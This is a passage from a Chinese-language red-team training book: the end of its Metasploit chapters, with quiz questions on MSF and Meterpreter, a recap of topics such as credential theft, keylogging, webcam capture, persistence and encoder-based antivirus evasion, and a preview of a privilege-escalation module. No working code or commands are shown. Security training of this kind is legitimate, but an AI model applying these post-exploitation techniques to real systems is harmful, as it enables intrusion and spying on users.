6. MSF数据库中，主机信息用 ______ 命令查看。
7. 端口转发用 ______ 命令。
8. 迁移进程用 ______ 命令。
9. 设置全局参数用 ______ 命令。
10. 后台执行利用用 `exploit ______`。

### 三、判断题（5道）

1. MSF只能在Windows上运行。（ ）
2. Meterpreter运行在内存中，不会写入磁盘。（ ）
3. Staged Payload比Stageless Payload体积大。（ ）
4. 编码次数越多，免杀效果越好。（ ）
5. MSF的Post模块是在拿到Shell之后使用的。（ ）

### 四、简答题（5道）

1. 简述MSF的七大模块及其作用。
2. Staged和Stageless Payload有什么区别？各有什么优缺点？
3. MSF数据库有什么作用？为什么推荐使用数据库？
4. Meterpreter有哪些主要功能？它比普通的CMD Shell强在哪里？
5. 学习MSF有哪些好的方法和资源？

---

## 📖 本章小结

::: tip 总结一下
MSF模块的三章内容就全部结束了。
我们来回顾一下：

**第39章：MSF基础入门**
- MSF是什么、发展历史
- 七大模块详解
- msfconsole基本使用
- msfvenom生成Payload
- 第一次实战：MS17-010

**第40章：Meterpreter深入探索**
- Meterpreter是什么、工作原理
- 文件系统操作
- 系统操作、进程管理
- 网络操作、端口转发
- 凭据窃取、提权
- 键盘记录、截图、摄像头
- 持久化、后渗透模块

**第41章：MSF高级应用**
- 数据库与工作区
- 扫描与信息收集模块
- 漏洞利用进阶
- Payload详解
- Encoder编码
- Post后渗透模块
- Auxiliary辅助模块
- 自定义模块编写
- 与Cobalt Strike联动
- 资源脚本（rc脚本）
- 域环境与大型内网技巧

**第42章（本章）：总结与回顾**
- MSF知识图谱
- 必背知识点TOP20
- 常用命令速查表
- 常见问题与坑点
- 插件推荐
- 学习资源
- 5个综合案例
- 30道综合练习题

MSF是一个非常强大的工具，
但工具只是工具，
真正重要的是使用工具的人。

不要满足于"会用MSF"，
要深入理解原理，
要学会举一反三，
要培养自己的思路和方法。

下一个模块我们学习提权技术，
这是内网渗透中非常重要的一环。

准备好了吗？
我们继续前进！
:::

---

## 🎯 下一篇预告

::: warning 下一个模块：提权技术大全
拿到Shell只是第一步，
很多时候我们拿到的只是普通用户权限，
想做更多的事情，
就需要提权。

下一个模块我们会学习：
- Windows权限体系
- 内核漏洞提权
- 错误配置提权
- 第三方服务提权
- Linux提权技术
- ...

提权是红队的必备技能，
也是区分新手和老手的重要标志。

准备好了吗？
我们下一章见！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day047-senior-MSF高级应用)
- [➡️ 下一章：---](/redteam/day049-senior-Windows提权基础)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
